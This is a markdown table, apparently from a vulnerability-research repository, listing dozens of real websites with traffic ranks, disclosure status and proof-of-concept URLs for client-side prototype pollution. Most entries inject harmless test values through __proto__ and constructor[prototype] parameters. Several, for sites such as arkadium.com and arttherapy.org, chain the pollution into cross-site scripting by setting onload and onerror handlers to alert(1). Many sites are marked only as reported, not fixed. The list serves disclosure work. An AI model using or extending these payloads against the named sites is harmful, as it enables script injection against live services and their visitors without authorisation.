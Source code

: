 |analuisa.com|54815|URL search|, URL-M|Reported|`https://www.analuisa.com/collections/accessories/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|andar.co.kr|22622|URL|, Cookie-M|Reported|`https://andar.co.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|annanmode.com|951894|URL search|-|Reported|`https://annanmode.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|anua.kr|552141|URL search|, Cookie-M|Reported|`https://anua.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|apboardwalk.com|521882|URL search|, URL-M|Fixed|`https://apboardwalk.com/venue-rental/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|apeel.com|271364|URL search|, Cookie-M|Reported|`https://www.apeel.com/news/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|apeelsciences.com|348391|URL search|, Cookie-M|Reported|`https://apeelsciences.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|apify.com|110301|URL search|, URL-M|Reported|`https://apify.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|apke.ru|703153|URL search|, Cookie-M|Reported|`https://apke.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|appliedradiology.com|256535|URL|-|Reported|`https://appliedradiology.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|appsflyer.com|387|URL search|-|Reported|`https://www.appsflyer.com/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|aprilskin.com|839847|URL|, URL-M, XSS|Reported|`https://aprilskin.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|aqha.com|78207|URL search|, Cookie-M, URL-M|Reported|`https://aqha.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|aqua-rmnt.com|848342|URL search|, Cookie-M, URL-M|Reported|`https://aqua-rmnt.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|aquamagazine.com|156701|URL search|-|Not|`https://aquamagazine.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|aquila.com.au|434509|URL search|, Cookie-M|Reported|`https://aquila.com.au/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|arabcenterdc.org|467035|URL|-|Reported|`https://arabcenterdc.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|arapahoelibraries.org|566397|URL search|-|Reported|`https://arapahoelibraries.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|arbormemorial.ca|161015|URL search|, Cookie-M, URL-M|Reported|`https://arbormemorial.ca/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|archeamarmi.it|508217|URL search|, Cookie-M|Fixed|`https://www.archeamarmi.it/prodotti/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|architecturalrecord.com|31532|URL|-|Reported|`https://architecturalrecord.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|arkadin.com|132765|URL search|-|Reported|`https://arkadin.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|arkadium.com|37962|URL search|-|Fixed|`https://www.arkadium.com/games/outspell/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|arkansasbusiness.com|63998|URL|-|Reported|`https://arkansasbusiness.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|aromatica.co|72027|URL search|-|Reported|`https://aromatica.co/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|aromatica.co.kr|72027|URL search|, Cookie-M|Reported|`https://aromatica.co.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|art-fashn.ru|602707|URL search|, Cookie-M|Reported|`https://art-fashn.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|artaic.com|848217|URL search|, URL-M|Reported|`https://artaic.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|artlistings.com|797955|URL|, Cookie-M|Reported|`https://artlistings.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|artspace.com|59724|URL search|-|Reported|`https://artspace.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|arttherapy.org|96735|URL search|-|Reported|`https://arttherapy.org/contact/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|ashtondrake.com|647618|URL search|, URL-M|Fixed|`https://www.ashtondrake.com/specials/custom-landing-page.html?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)&epm=Ashton-Drake-Difference&cm_re=DesktopTest-_-ADDifferenceBanner-_-NA`
|asiantoko.nl|588518|URL search|-|Reported|`https://asiantoko.nl/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|askattest.com|160620|URL search|-|Reported|`https://askattest.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|asse.com|70480|URL search|-|Reported|`https://asse.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|assemblymag.com|81814|URL|, URL-M|Not|`https://assemblymag.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|astorekw.com|511743|URL search|-|Reported|`https://astorekw.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`